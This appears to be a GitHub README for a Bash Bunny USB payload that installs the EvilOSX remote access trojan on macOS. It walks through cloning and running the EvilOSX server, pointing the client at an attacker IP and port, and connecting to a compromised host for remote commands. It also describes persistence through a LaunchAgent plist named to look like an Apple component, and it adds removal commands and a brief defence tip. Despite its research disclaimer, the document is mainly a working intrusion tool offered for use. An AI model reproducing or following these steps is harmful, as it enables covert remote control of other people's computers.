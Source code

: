 # untitled_EVILOSX

````
 +  ______       _  _   ____    _____ __   __ 
 + |  ____|     (_)| | / __ \  / ____|\ \ / /
 + | |__ __   __ _ | || |  | || (___   \ V / 
 + |  __|\ \ / /| || || |  | | \___ \   > <  
 + | |____\ V / | || || |__| | ____) | / . \ 
 + |______|\_/  |_||_| \____/ |_____/ /_/ \_\\
 + untitled_ bash bunny edition    /   stekole
`````

** Disclaimer: This RAT is for research purposes only, and should only be used on authorized systems. ** 
** Accessing a computer system or network without authorization or explicit permission is illegal. **


## Features
 * Client reconnects automatically/persistence 
 * ECM_ETHERNET and HID attack
 * 

## Configuration


### Server

 To prep your server you will need to download and follow the install instructions from EVILOSX. 
 
 On your server, download the EvilOSX code and run your server. 
  ````
      git clone https://github.com/Marten4n6/EvilOSX.git && cd EvilOSX
      ./Server 
  ````
and type your listening port (1337)

### Client

Before you deploy your bash bunny, update your configuration in the EvilOSX.py file

At the bottom of the file you will see a server and port variable 

Set these to your server IP and listening port

````
  #########################
  SERVER_HOST = "10.99.99.16"
  SERVER_PORT = 1337
  #########################
````


## Usage

Plug in your bash bunny and wait until the script has finished running. 

You should see the client connect to the server

````
root@kali:~/git/EvilOSX# ./Server.py 
  ______       _  _   ____    _____ __   __
 |  ____|     (_)| | / __ \  / ____|\ \ / /
 | |__ __   __ _ | || |  | || (___   \ V / 
 |  __|\ \ / /| || || |  | | \___ \   > <  
 | |____\ V / | || || |__| | ____) | / . \ 
 |______|\_/  |_||_| \____/ |_____/ /_/ \_\
 
[?] Port to listen on: 1337
[I] Type "help" to get a list of available commands.
> clients
[I] 1 client(s) available:
    0 = client_hostname
> connect 0
[I] Connected to "client_hostname", ready to send commands.
````


## Removal of Tool

The file gets added to the following directory - and startup file is added to the LaunchAgents directory
````
rm -rf ~/Library/Containers/.EvilOSX/
launchctl unload ~/Library/LaunchAgents/com.apple.EvilOSX.plist && rm -rf ~/Library/LaunchAgents/com.apple.EvilOSX.plist
````

## Defence 
 * disable the command-space short key for spotlight or disable spotlight all together if not needed

## Todo

## Issues
 * I ran into a few issues with the "Build" of the python script.
 If the default one in this payload doesnt work, regenerate a new EvilOSX.py
 
 Run ./BUILDER and enter the appropriate information: 
![](http://i.imgur.com/NQRPFXS.png)

After copy this to your switch payload

## Thanks
* [@Marten4n6](https://github.com/Marten4n6/EvilOSX)
* [YOURMOM](Check my room)

